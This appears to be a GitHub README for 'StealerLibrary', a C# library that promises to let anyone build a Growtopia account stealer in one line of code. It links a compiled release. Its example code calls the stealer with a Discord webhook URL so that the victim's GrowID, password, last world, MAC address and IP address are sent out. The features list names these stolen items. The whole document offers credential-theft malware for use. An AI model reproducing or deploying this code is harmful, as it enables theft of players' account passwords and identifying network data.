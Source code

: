 # StealerLibrary
Growtopia (Save.dat) Stealer Library that basically let you to write a stealer with 1 line of code.

## Compiled Version: [Release V1](https://github.com/extatent/StealerLibrary/releases/tag/V1)

### Compile the source code with Visual Studio and add the .DLL to the references in your project and start writting the code below.

## Example Usage : 

```csharp
using StealerLibrary;
using System;

namespace Example
{
    class Program
    {
        private static void Main()
        {
            Growtopia.Stealer("https://discord.com/api/webhooks/1234567891011/WebhookUrl", "ProfilePictureUrl [Optional]", "Webhook Name", true, true, false);
        }
    }
}
```
1. Webhook Url
2. Profile Picture Url
3. Webhook Name
4. Last World (True/False)
5. MAC Address (True/False)
6. IP Address (True/False)

## Features

- GrowID
- Password
- Last World (Customizable: True/False)
- MAC Address (Customizable: True/False)
- IP Address (Customizable: True/False)

<img src="http://anarchy.5v.pl/example.png" alt="png">

## StealerLibrary is licensed under the GNU General Public License v3.0. Before doing anything with the source code, please read [this.](https://www.gnu.org/licenses/gpl-3.0.html)
